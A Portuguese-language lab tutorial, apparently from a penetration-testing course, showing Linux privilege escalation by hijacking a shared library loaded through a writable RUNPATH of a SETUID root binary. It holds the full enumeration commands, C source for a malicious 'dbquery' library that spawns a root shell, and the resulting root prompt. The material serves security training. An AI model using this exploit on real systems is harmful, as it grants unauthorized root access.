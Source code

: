 Programas e binários em desenvolvimento geralmente têm bibliotecas personalizadas associadas a eles. Considere o seguinte binário `SETUID`.

```shell-session
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

Podemos usar [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) para imprimir o objeto compartilhado requerido por um objeto binário ou compartilhado. `Ldd` exibe a localização do objeto e o endereço hexadecimal onde ele é carregado na memória para cada uma das dependências de um programa.

```shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

Vemos uma biblioteca não padrão chamada `libshared.so` listada como uma dependência para o binário. Conforme declarado anteriormente, é possível carregar bibliotecas compartilhadas de locais personalizados. 

Uma dessas configurações é a configuração `RUNPATH`. Bibliotecas nesta pasta têm preferência sobre outras pastas. Isso pode ser inspecionado usando o utilitário [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) .

```shell-session
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

A configuração permite o carregamento de bibliotecas da pasta `/development`, que é gravável por todos os usuários.

Essa configuração incorreta pode ser explorada colocando uma biblioteca maliciosa em `/development`, que terá precedência sobre outras pastas porque as entradas neste arquivo são verificadas primeiro (antes de outras pastas presentes nos arquivos de configuração).

```shell-session
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Antes de compilar uma biblioteca, precisamos encontrar o nome da função chamada pelo binário.

```shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Podemos copiar uma biblioteca existente para a pasta `development`. Executar `ldd` contra o binário lista o caminho da biblioteca como `/development/libshared.` , o que significa que ele é vulnerável. Executar o binário gera um erro informando que ele falhou em encontrar a função chamada `dbquery`. Podemos compilar um objeto compartilhado que inclui essa função.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

A função `dbquery` define nosso id de usuário como 0 (root) e executa `/bin/sh` quando chamada. Compile-a usando [GCC](https://linux.die.net/man/1/gcc) .

```shell-session
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Executar o binário novamente deve exibir o banner e abrir um shell root.

```shell-session
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```